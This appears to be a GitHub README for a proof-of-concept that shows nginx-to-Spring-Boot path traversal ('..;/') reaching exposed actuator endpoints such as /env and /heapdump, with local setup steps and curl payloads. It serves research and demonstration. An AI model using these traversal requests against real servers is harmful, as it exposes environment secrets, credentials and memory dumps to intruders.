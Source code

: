 # Purpose
This is a PoC that combines Orange Tsais research about ["Breaking parser logic"](http://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) and an unsecure configuration of spring-boot-starter-actuator as documented in [Baeldungs Docs 3.7 Further Customization](https://www.baeldung.com/spring-boot-actuators#boot-1x-actuator)


# Walkthrough 
1. cd spring; mvn clean install
2. cd target; java -jar orange-actuator-poc-0.0.1-SNAPSHOT.jar
3. test java service: curl localhost:8080/api/hello
4. change nginx server listen port to 80
5. add this to your nginx configuration to add a proxy rule:
        location /orange {
                proxy_pass http://localhost:8080/api;
                proxy_redirect     off;
                proxy_set_header   Host $host;
	}
6. start nginx
7. curl localhost:80/orange/..;/env
7. curl localhost:80/orange/directory/..;/..;/env

Nginx will send the request to the spring boot application at localhost:8080/api/directory/..;/..;/env
The path traversal makes that a request to localhost:8080/env
/env can be substituted by any default actuator endpoint, e.g. /trace or /heapdump
